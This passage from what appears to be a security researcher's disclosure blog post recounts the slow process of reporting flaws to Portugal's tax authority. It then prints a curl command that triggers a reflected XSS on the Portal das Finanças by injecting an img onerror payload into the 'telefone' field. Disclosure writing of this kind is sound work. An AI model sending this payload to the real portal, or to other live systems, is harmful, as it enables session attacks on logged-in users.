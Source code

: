 I will ignore these, however, as I consider that would, unfortunately, be setting the bar too high. Since the second part of this series contains critical vulnerabilities that don't require brute-forcing, I will also not discuss this type of attack.


### Reporting Security Flaws via the Support Line

The first thing I do whenever I identify a security flaw is to try to find the dedicated email of the affected entity's security team. If it is nowhere to be found, a blank message is sent to `security@domain.tld`. Traditionally, that ends up getting bounced. I don't entirely condemn them for not following [RFC 2142](https://tools.ietf.org/html/rfc2142#section-4) as these mailboxes do get blasted with spam and unwanted messages.

But without a responsive means of communication, trying to reach the right person quickly turns into a nightmare. But such is no match for **when you are sucked into the world of unprioritized, crippled, slow and low-level support**.

And I went through that... [again]({{ '/posts/harder-to-report-than-to-find-security-vulnerabilities-portuguese-government' | relative_url }}). First, I called the support line multiple times asking to report a serious vulnerability. Sadly, these technicians are trained into just instructing citizens to submit a support ticket, regardless of the subject at hand. I submitted one. I called multiple times. After 4 months, and as requested, I created another one. Both are still open to this day.

It got to the point where I was forced to **file a complaint** with the my country's [Data Protection Authority (DPA)](https://en.wikipedia.org/wiki/National_data_protection_authority). Not that it made any difference - my calls and emails kept piling up. Even after explaining in layman's terms the severity of the situation (and precisely what was impacted), all I got was that they had, and I quote:

> Too many complaints (...) [and that it would] likely take another several months for an investigation to even begin.

Finally, I called *Autoridade Tributária* (AT) one last time. **36 minutes and 49 seconds** - more than half an hour between call forwards, multiple departments and my refusal to open yet another useless ticket. Finally someone listened and forwarded my call to that one person - the one that could fix the issue.

And here we are.


### Reflected XSS (POST)

We'll open with a solid, old [Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) vulnerability. I won't go into many details regarding this endpoint, as we'll come to it later on. The following triggers it:

``` shell
curl -X POST \
  https://www.portaldasfinancas.gov.pt/pt/fiabilizacaoTelefone.action \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'cookie: portalfin_JSessionID=VALID_SESSION;SINGLE_DOMAIN_SSO_COOKIE=VALID_SSO;' \
  -d 'telefone="><img src=/ onerror=alert(1)>&codigo=CODE&confirmarBtn=Confirmar'
```

Only the `telefone` key is injectable and the user must be logged-in. There is a similar endpoint that deals with an email address which, unlike this one, properly escapes the input.
